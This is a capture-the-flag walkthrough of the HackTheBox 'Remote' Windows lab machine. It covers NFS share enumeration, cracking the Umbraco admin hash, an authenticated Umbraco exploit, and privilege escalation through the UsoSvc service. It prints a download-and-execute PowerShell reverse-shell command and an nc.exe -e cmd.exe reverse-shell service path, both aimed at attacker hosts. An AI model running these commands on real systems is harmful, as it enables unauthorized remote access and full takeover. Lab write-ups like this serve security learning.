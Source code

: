 ```yaml
---
layout: post
title: HackTheBox Remote Walkthrough
date: 2020-09-06 20:30:00 +0530
categories: walkthroughs hackthebox
tags: windows umbraco cms teamviewer
permalink: /:categories/:title.html
---
```


# HackTheBox Remote Walkthrough

![Remote Banner](/assets/images/hackthebox/remote/banner.png)


### Synopsis

Remote is an easy windows box by the hackthebox standard.Its all about to abuse remote access tool as the name suggest.But there are always more ways to root the box and i did the unintended way to root the box.So in this walkthrogh i will show you that.First for foothold you have to mount nfs volume and find the password for Umbraco CMS in the database file.Then by using the Ubmbraco exploit we can get the shell for user.txt.After running the winPEAS on the box, we find there is service running that we got access to abuse.So by abusing the service we will get the administrator shell and root.txt.

## Reconnaissance

### Nmap Scan

```namp
# Nmap 7.80 scan initiated Sun Sep  6 10:49:43 2020 as: nmap -sC -sV -Av -oN scans/nmap 10.10.10.180
Increasing send delay for 10.10.10.180 from 0 to 5 due to 172 out of 573 dropped probes since last increase.
Nmap scan report for remote.htb (10.10.10.180)
Host is up (0.28s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=9/6%OT=21%CT=1%CU=38958%PV=Y%DS=2%DC=T%G=Y%TM=5F5472CC
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=104%TI=I%CI=I%II=I%SS=S%TS=U
OS:)SEQ(SP=100%GCD=1%ISR=104%II=I%TS=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M
OS:54DNW8%O4=M54DNW8NNS%O5=M54DNW8NNS%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFF
OS:F%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR
OS:%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=8
OS:0%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1m52s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-06T05:23:35
|_  start_date: N/A

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   379.57 ms 10.10.14.1
2   379.68 ms remote.htb (10.10.10.180)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  6 10:55:32 2020 -- 1 IP address (1 host up) scanned in 349.00 seconds
```

__FTP__  
Anonymous login is allowed but there is nothing on the server.

__Mountd__  
There is a nfs volume on the server which is accessible by everyone.So we can mount it and see whats in there.

```bash
$ showmount -e 10.10.10.180

Export list for 10.10.10.180:
/site_backups (everyone)

$ mount -t nfs 10.10.10.180:/site_backups /mnt
```

### Web

__HTTP Server__  
There is the website called acme widgets.

![Home](/assets/images/hackthebox/remote/home.jpg)

If you go to the _contact_ page you can see that this site running by the Umbraco CMS in the back.
The file system that we mounted has a database file App_Data/Umbraco.sdf. Run the strings command on it and search for the admin, you can find the sha1 hash for the user _admin@htb.local_.By decoding the hash we will get _baconandcheese_.

![Umbraco](/assets/images/hackthebox/remote/umbraco.png)

Now that we know the credential we can login.
If you click on the help tab you can view the CMS version of Umbraco which is 7.12.4  

## Foothold

If you search for the CVE for that version of Umbraco CMS you will find the python exploit script from noraj on github.
Use that script to get the revershell on the box.

```bash
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.118:8000/Invoke-PowerShellTcp.ps1')"
```

### User Flag

![User Flag](/assets/images/hackthebox/remote/user_flag.png)

## Enumeration

### winPEAS

Run the winPEAS.exe on the box.It tells us that we can abuse the UsoSvc service.

![winPEAS](/assets/images/hackthebox/remote/winpeas.png)

```powershell
sc.exe config UsoSvc binpath="C:\Users\Public\nc.exe -nv 10.10.14.58 9999 -e C:\WINDOWS\System32\cmd.exe"
sc.exe stop UsoSvc
sc.exe start UsoSvc
```

### Root Flag

catch the reverse shell and cat the root flag from the Adminsitrator's Desktop.

![root flag](/assets/images/hackthebox/remote/root_flag.png)

Thanks for reading this walkthrough, If you like it please share it on twitter, reddit or in linkedin.
